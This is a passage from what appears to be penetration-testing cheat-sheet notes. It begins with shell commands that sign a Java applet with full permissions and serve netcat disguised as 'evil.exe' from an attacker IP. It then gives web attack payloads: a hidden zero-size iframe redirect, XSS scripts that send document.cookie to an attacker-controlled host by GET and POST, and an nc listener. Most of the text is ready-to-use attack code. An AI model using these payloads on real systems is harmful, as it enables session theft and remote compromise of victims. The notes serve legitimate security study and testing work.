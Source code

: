 
```sh
javac -source 1.7 -target 1.7 Java.java # compile to class
echo "Permissions: all-permissions" > /root/manifest.txt
jar cvf Java.jar Java.class # compress class into jar
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123
jarsigner -keystore mykeystore -keypass mykeypass -storepass password123 -signedjar SignedJava.jar Java.jar signapplet
mv Java.class SignedJava.jar /var/www/html/
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://192.168.1.23:80/evil.exe"></applet>' > /var/www/html/java.html
cp /usr/share/windows-binaries/nc.exe /var/www/html/evil.exe
```

# Web Application Attacks

## Essential Firefox Add-ons
* Cookie Manager+
* Tamper Data

## XSS

### Browser Redirection and IFRAME Injection
Forcing a victim to visit a webpage. Use an IFRAME as it is stealthy. This redirection may be used to redirect a victim browser to a client side attack or to an information gathering script. Listen for the connection: `nc -lvp 80`
```html
<iframe SRC="http://[your ip]/report" height="0" width="0"></iframe>
```

Tools:
* User Agent Parser: https://developers.whatismybrowser.com/useragents/parse/#parse-useragent (for exploiting outdated clients)

### Stealing Cookies and Session Information

#### GET Request
```html
<script>new Image().src="http://[your ip]/bogus.php?output="+document.cookie;</script>
```

#### POST Request
```html
var http = new XMLHttpRequest();var url = "/flatfilelogin/shout.php";var params = "input_name=stolen&input_text=" + document.cookie;http.open("POST", url, true);http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");http.send(params);
```

## File Inclusion

### Local File Inclusion (LFI)
Ability to "include" any local file in the filesystem and execute PHP code within the included files.
